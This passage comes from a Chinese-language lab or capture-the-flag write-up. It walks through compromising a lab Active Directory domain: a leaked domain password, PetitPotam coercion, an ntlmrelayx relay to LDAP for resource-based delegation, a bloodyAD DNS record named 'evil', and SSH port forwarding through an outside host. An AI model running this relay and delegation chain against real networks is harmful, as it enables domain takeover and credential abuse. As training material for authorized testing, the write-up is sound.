 ```shell
           ##                                                           ######
           ##                                                           :####:


flag02: [REDACTED]
```

## flag03

域用户凭据

```shell
yangmei:xrihGHgoNZQ
```

根据题目描述, 考虑 NTLM Relay via WebDAV

检测内网启动了 WebClient 服务的机器

![image-20230816125859701](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161258750.png)

PetitPotam

![image-20230816130032840](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161300887.png)

使用 addcomputer.py 创建机器账户的时候提示如下

```shell
[-] User yangmei machine quota exceeded!
```

查询后发现 `MAQ=0`, 但是上面 mimikatz 已经导出了 `XR_DESKTOP$` 账户的 Hash, 所以用这个机器账户配置 RBCD 就行

先启动 ntlmrelayx.py

```shell
proxychains ntlmrelayx.py -t ldap://172.22.11.6 --escalate-user 'XR-DESKTOP$' --delegate-access --no-dump
```

> 默认情况下, WebClient 仅对本地内部网 (Local Intranet) 或受信任的站点 (Trusted Sites) 列表中的目标自动使用当前用户凭据进行 NTLM 认证

添加 DNS 信息

```shell
$ proxychains bloodyAD -d xiaorang.lab -u yangmei -p xrihGHgoNZQ --host 172.22.11.6 add dnsR
ecord evil 172.22.11.76
[+] evil has been successfully added
```

ssh 远程端口转发

```shell
ssh root@39.99.156.24 -D 1080 -R 81:127.0.0.1:80
```

但因为默认情况下远程端口转发只监听本地地址, 所以要么修改 sshd config 要么用端口转发工具中转一下

```shell
root@ubuntu:~# netstat -ntpl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      435/systemd-resolve
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      622/sshd: /usr/sbin
tcp        0      0 127.0.0.1:81            0.0.0.0:*               LISTEN      2955/sshd: root@pts
tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN      639/java
tcp6       0      0 :::8009                 :::*                    LISTEN      639/java
tcp6       0      0 :::8080                 :::*                    LISTEN      639/java
root@u
```
